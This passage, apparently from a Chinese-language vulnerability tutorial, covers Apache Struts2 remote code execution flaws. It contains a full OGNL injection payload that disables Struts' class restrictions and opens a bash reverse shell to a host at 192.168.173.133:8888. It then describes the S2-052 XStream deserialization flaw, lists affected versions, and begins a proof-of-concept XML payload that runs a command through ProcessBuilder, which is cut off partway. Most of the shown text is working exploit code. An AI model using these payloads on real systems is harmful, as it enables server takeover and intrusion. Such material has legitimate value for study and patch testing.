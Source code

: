 ```php
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i &gt;&amp; /dev/tcp/192.168.173.133/8888 0&gt;&amp;1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b&quot;
```

![image-20210711195527888](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e9604deb41ec8568d96ae9a11d1b9833a331e98c.png)

### 4.16 S2-052远程代码执行漏洞

#### 漏洞原理

##### Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对x ml格式的数据包进行反序列化操作时，未对数据内容进行有效验证，可被远程攻击。

#### 影响版本

```php
Struts 2.1.2 - Struts 2.3.33
Struts 2.5 - Struts 2.5.12
```

#### 启动漏洞

![image-20210711200028566](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ce7dacedf7db522d886c9411f5f82e8950c8657d.png)

![image-20210711200209092](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-086b1945a64e73465e894ccec980eaff934500ea.png)

#### poc-1

```php
&lt;map&gt;
 &lt;entry&gt;
 &lt;jdk.nashorn.internal.o bjects.NativeString&gt;
 &lt;flags&gt;0&lt;/flags&gt;
 &lt;value class=&quot;com.sun.x ml.internal.bind.v2.runtime.unmarshaller.B ase64Data&quot;&gt;
 &lt;dataHandler&gt;
 &lt;dataSource class=&quot;com.sun.x ml.internal.ws.encoding.x ml.x mlMessage$x mlDataSource&quot;&gt;
 &lt;is class=&quot;javax.crypto.CipherInputStream&quot;&gt;
 &lt;cipher class=&quot;javax.crypto.NullCipher&quot;&gt;
 &lt;initialized&gt;false&lt;/initialized&gt;
 &lt;opmode&gt;0&lt;/opmode&gt;
 &lt;serviceIterator class=&quot;javax.imageio.spi.FilterIterator&quot;&gt;
 &lt;iter class=&quot;javax.imageio.spi.FilterIterator&quot;&gt;
 &lt;iter class=&quot;java.util.Collections$EmptyIterator&quot;/&gt;
 &lt;next class=&quot;java.lang.ProcessBuilder&quot;&gt;
 &lt;command&gt;
 &lt;string&gt;touch&lt;/string&gt;
 &lt;string&gt;/tmp/success&lt;/string&gt;
 &lt;/command&gt;
 &lt;redirectErrorStream&gt;false&lt;/redirectErrorStream&gt;
 &lt;/next&gt;
 &lt;/iter&gt;
 &lt;filter class=&quot;javax.imageio.ImageIO$ContainsFilter&quot;&gt;
 &lt;method&gt;
 &lt;class&gt;java.lang.ProcessBuilder&lt;/class&gt;
 &lt;name&gt;start&lt;/name&gt;
 &lt;parameter-types/&gt;
```